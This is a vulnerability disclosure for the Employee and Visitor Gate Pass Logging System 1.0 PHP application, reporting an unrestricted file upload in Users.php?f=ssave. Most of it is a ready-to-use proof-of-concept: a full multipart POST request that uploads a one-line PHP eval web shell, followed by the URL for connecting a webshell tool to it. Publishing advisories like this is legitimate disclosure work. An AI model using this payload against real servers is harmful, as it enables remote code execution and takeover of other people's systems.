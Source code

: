 ## Affected version: 
EMPLOYEE AND VISITOR GATE PASS LOGGING SYSTEM - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/php/15026/employee-and-visitor-gate-pass-logging-system-php-source-code.html

## Vulnerability File:
/employee_gatepass/classes/Users.php?f=ssave

## Description:
System Employee and Guest Gate Pass Logging 1.0 is vulnerable to an unrestricted file upload attack via /employee_gatepass/classes/Users.php?f=ssave. This function does not impose restrictions on upload suffixes. A malicious actor could exploit this vulnerability to directly take over the target server. 

Status: CRITICAL

POC
```
POST /employee_gatepass/classes/Users.php?f=ssave HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------138523865236681880423858409304
Content-Length: 951
Origin: http://localhost
Connection: close
Referer: http://localhost/employee_gatepass/admin/?page=user/manage_user&id=11
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: 192.168.1.23

-----------------------------138523865236681880423858409304
Content-Disposition: form-data; name="id"

1
-----------------------------138523865236681880423858409304
Content-Disposition: form-data; name="firstname"

Claire
-----------------------------138523865236681880423858409304
Content-Disposition: form-data; name="lastname"

Blake
-----------------------------138523865236681880423858409304
Content-Disposition: form-data; name="username"

cblake
-----------------------------138523865236681880423858409304
Content-Disposition: form-data; name="password"


-----------------------------138523865236681880423858409304
Content-Disposition: form-data; name="type"

1
-----------------------------138523865236681880423858409304
Content-Disposition: form-data; name="img"; filename="1234.php"
Content-Type: application/octet-stream

<?php eval($_POST[1]);?>
-----------------------------138523865236681880423858409304--

```

Directly connect to the webshell management tool through the following address
http://localhost/employee_gatepass/uploads/1715653620_1234.php

![image](https://github.com/I-Schnee-I/cev/assets/58547398/4db9fcea-464b-4d48-b8e4-b4f726cff3c9)
